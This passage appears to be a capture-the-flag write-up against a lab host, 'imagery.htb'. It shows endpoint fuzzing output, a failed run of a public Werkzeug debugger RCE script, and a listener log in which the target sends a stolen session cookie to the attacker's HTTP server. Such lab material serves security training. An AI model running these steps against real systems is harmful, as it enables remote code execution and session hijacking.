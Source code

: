It has login and register page 

```jsx
images                  [Status: 401, Size: 59, Words: 4, Lines: 2, Duration: 211ms]
login                   [Status: 405, Size: 153, Words: 16, Lines: 6, Duration: 193ms]
logout                  [Status: 405, Size: 153, Words: 16, Lines: 6, Duration: 218ms]
register                [Status: 405, Size: 153, Words: 16, Lines: 6, Duration: 235ms]
```

---

![2025-10-23_00-46.png](img1.png)

## vulnerability scanning

### `Werkzwug` Exploit

`Werkzwug` have exploit if the debugger is enabled. lat try that 

[https://github.com/its-arun/Werkzeug-Debug-RCE](https://github.com/its-arun/Werkzeug-Debug-RCE)

```jsx
└─$ git clone https://github.com/its-arun/Werkzeug-Debug-RCE.git
cd Werkzeug-Debug-RCE
chmod +x werkzeug.py
└─$ python2 werkzeug.py imagery.htb:8000 whoami
[-] Debug is not enabled
└─$ 
```

> Debug is not enabled
> 

![2025-10-23_01-26.png](img3.png)

> I miss a page in the website, It is the a Report bug page, that have a input page that maybe save the input
> 

![2025-10-23_01-43.png](img2.png)

```jsx
└─$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.88 - - [23/Oct/2025 01:41:12] code 404, message File not found
10.10.11.88 - - [23/Oct/2025 01:41:12] "GET /session=.eJw9jbEOgzAMRP_Fc4UEZcpER74iMolLLSUGxc6AEP-Ooqod793T3QmRdU94zBEcYL8M4RlHeADrK2YWcFYqteg571R0EzSW1RupVaUC7o1Jv8aPeQxhq2L_rkHBTO2irU6ccaVydB9b4LoBKrMv2w.aPm_9Q.5UGRaMOsbK0A-eSPgzxEvQYvuwc HTTP/1.1" 404 -
10.10.11.88 - - [23/Oct/2025 01:41:12] code 404, message File not found
10.10.11.88 - - [23/Oct/2025 01:41:12] "GET /favicon.ico HTTP/1.1" 404 -

```

![2025-10-23_02-00.png](img6.png)
